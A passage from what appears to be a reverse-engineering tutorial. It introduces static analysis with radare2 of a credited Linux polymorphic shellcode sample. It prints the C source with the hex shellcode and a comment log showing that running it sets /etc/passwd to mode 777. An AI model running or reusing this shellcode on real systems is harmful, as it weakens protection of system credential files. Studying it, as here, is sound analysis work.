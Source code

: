     mywisdom (devilzc0de.org), loneferret (offensive-security.com)
    */
    
    /*
    root@localhost# ls -la /etc/passwd
    -rw-r--r-- 1 root root 1869 2010-05-08 15:53 /etc/passwd
    root@localhost# gcc -o polymorphic_chmod polymorphic_chmod.c
    chmod.c: In function ‘main’:
    chmod.c:37: warning: incompatible implicit declaration of built-in function ‘strlen’
    root@localhost# ./polymorphic_chmod
    Length: 64
    root@localhost# ls -la /etc/passwd
    -rwxrwxrwx 1 root root 1869 2010-05-08 15:53 /etc/passwd
    root@localhost# chmod 644 /etc/passwd
    root@localhost# ls -la /etc/passwd
    -rw-r--r-- 1 root root 1869 2010-05-08 15:53 /etc/passwd
    */
    
    #include <stdio.h>
    
    char shellcode[] =
    	"\xeb\x11\x5e\x31\xc9\xb1\x27\x80\x6c\x0e\xff\x35\x80\xe9\x01"
    	"\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x20\x4a\x66\xf5\xe5\x44"
    	"\x90\x66\xfe\x9b\xee\x34\x36\x02\xb5\x66\xf5\xe5\x36\x66\x10"
    	"\x02\xb5\x1d\x1b\x34\x34\x34\x64\x9a\xa9\x98\x64\xa5\x96\xa8"
    	"\xa8\xac\x99";
    
    int main(void)
    {
           	fprintf(stdout,"Length: %d\n",strlen(shellcode));
    	(*(void(*)()) shellcode)();
         
    return 0;
    }
    </code>
    



Thanks to gunslinger for allowing me to use this code as an example.

The description in comments claims that the code sets the file permissions on /etc/passwd to 777, but you would not know that at a glance. What we do know is that we have an array of bytes initialised as hex, which is then cast to a function pointer and called.



## Analysis with Radare2



NOTE: This analysis was done using a hg tip snapshot of radare2 from July 2011. Some of the features have only recently been implemented or bugfixed, so using an older version will not work ;) EDIT: Radare-2.0.8 was released 2 days ago, this will work!

So how do we find out what this program does? We could build it and run it, but I won't, as it could remove my home directory for all I know. Instead let us examine it statically using radare2.
